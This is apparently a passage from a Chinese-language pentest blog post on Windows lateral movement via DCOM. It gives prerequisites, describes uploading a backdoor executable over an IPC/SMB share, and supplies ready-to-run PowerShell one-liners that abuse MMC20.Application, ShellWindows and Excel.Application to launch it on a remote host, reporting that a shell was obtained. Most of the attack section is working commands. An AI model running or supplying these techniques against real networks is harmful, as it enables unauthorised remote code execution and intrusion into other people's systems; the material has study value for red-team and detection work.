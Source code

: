 在实例化一个对象时，我们提供了程序的ID一个实例化的IP，我们可以修改选项为远程主机来达到在远程主机上实例化对象的目的，并调用该实例化的对象执行命令

利用条件

+ 具有管理员权限的Powershell
+ 目标系统的防火墙对我方放行，或直接利用系统服务关闭对方的防火墙
+ 在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户

利用步骤

+ 通过IPC连接目标主机或是在可控主机上搭建SMB服务器的方式上传恶意木马文件(木马文件要在目标主机的可执行目录下)![Dcom-upload](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/Dcom-upload.png)

在共享文件夹中上传了名为Dcom.exe的后门程序

+ 通过powershell实现与远程主机Dcom的交互，并创建MMC20.Application的实例

```shell
#实例化对象，目标为远程主机
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.30.10"))
#在远程主机上执行exe程序
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c c:Dcom.exe","Minimized")
#完整命令
powershell $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.30.10")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c C:\Dcom.exe","Minimized")
```

![remote-dc-dcom](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/remote-dc-dcom.png)

成功返回shell

#### 调用ShellWindows远程执行命令

![shellwindows-id](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/shellwindows-id.png)

```shell
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.30.10")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0)
```

![dcom-shellwindows](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/dcom-shellwindows.png)

#### 调用Excel.Application远程执行命令

```shell
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例:
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.30.10"))
#禁用警告和提示信息
$com.DisplayAlerts = $false
# 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程:
$com.DDEInitiate("cmd.exe","/c C:\excel.exe")
```

#### ShellBrowserWindow

![shellbrowserwindow](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/shellbrowserwindow.png)
